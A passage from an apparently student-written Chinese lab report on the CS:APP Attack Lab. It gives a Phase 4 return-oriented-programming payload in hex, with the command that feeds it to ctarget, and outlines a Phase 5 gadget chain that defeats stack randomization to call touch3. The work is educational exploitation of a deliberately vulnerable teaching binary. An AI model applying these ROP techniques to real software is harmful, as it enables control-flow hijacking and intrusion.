 ```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
fe 19 40 00 00 00 00 00
c4 e9 0d 2c 00 00 00 00
19 1a 40 00 00 00 00 00
42 18 40 00 00 00 00 00
```

也即如下五部分组成：

1. 用0x00补位
2. 将return address修改为执行popq %rax的地址（gadget1）
3. return address上方写入cookie
4. 在3上方写入执行movq %rax %rdi指令的地址（gadget2）
5. 在4上方写入touch2函数的地址



进行检验：

```shell
cat 4.txt | ./hex2raw | ./ctarget -q
```



### 实验结果

<img src="/Users/zhaochen20/CST_THU/csapp/report/phase4.png" alt="phase4" style="zoom:50%;" />





## Phase5

### 实验原理

phase5采用了随机栈地址的方式来保护程序。我们同样需要做的就是把字符串的起始地址，传送到`%rdi`，然后调用`touch3`函数。因为每次栈的位置是随机的，所以无法直接用地址来索引字符串的起始地址，只能用栈顶地址 + 偏移量来索引字符串的起始地址。注意到我们拥有如下指令`lea(%rdi,%rsi,1),%rax`，视其为gadget0，这样就可以把字符串的首地址传送到`%rax`。



在gadget0的基础上，一条可行的指令路径如下（省略了指令完成之后的ret指令，且指令按照从前到后次序执行，对应在栈中即为从栈顶向上）：

1. movq %rsp, %rax，视为gadget1
2. movq %rax, %rdi，视为gadget2
3. pop %rax，将偏移量传递给%rax，视为gadget3
4. movl %eax, %edx，视为gaget4
5. movl %edx, %ecx，视为gaget5
6. movl %ecx, %esi，视为gaget6
7. lea (%rdi, %rsi, 1)，即gaget0
8. movq %rax, %rdi，视为gaget7
9. 在得到的%rdi所指向位置写入cookie的十六进制字符串
10. 执行touch3
